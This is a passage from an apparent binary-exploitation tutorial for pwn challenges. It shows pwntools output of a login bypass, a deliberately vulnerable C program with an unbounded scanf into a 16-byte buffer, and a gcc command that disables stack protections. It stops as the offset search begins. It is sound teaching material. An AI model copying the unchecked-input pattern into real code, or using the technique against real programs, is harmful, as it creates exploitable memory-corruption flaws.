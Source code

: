 ```shell
    b'Enter admin password: \n'
[DEBUG] Sent 0x8 bytes:
    b'abcdefg\n'
[+] Receiving all data: Done (74B)
[*] Process './login' stopped with exit code 0 (pid 33611)
[DEBUG] Received 0x48 bytes:
    b'Incorrect Password!\n'
    b'Successfully logged in as Admin (authorised=103) :)\n'
 
Incorrect Password!
Successfully logged in as Admin (authorised=103) :)
```
We can see we successfully logged in as Admin. The pwntools will come in handy when exploiting binaries running remotely which will happen in most cases during pwn challenges.

## The unreachable functi0n W4TCHD0G5

In the following code the watchdogs function cannot be executed by the program since there is no place in the code where it is called.
```c
#include <stdio.h>

void watchdogs(){
    printf("Let's play W4tchd0g5");
}

void register_favourite_game(){
    char buffer[16];

    printf("Enter your favourite video game :\n");
    scanf("%s", buffer);
    printf("Your favourite video games is , %s\n", buffer);    
}

int main(){
    register_favourite_game();

    return 0;
}
```
Again Let's compile the code to an executable binary and remove the protections which might prevent us from exploiting the code. The code is dynamically linked and its not stripped.

```shell
gcc watchdogs.c -o watchdogs -fno-stack-protector -z execstack -no-pie
```
Let's run the program and input our favourite game
```shell
~/Documents/coding/c$ ./watchdogs
Enter your favourite video game :
Fortnite
Your favourite video games is , Fortnite
```
Let's run the program and input a long character greater than 16 characters
```
~/Documents/coding/c$ ./watchdogs
Enter your favourite video game :
dafgshkjdljkewucywklbecrtktwveuityikwrntuicw
Your favourite video games is , dafgshkjdljkewucywklbecrtktwveuityikwrntuicw
Segmentation fault (core dumped)
```
we get a segmentation fault meaning maybe we have overwritten some important variables of the code or the return address. Let's get the (offset) number of characters we need to write before overwritting the return address using pwndbg. We first use cyclic to generate 50 random characters
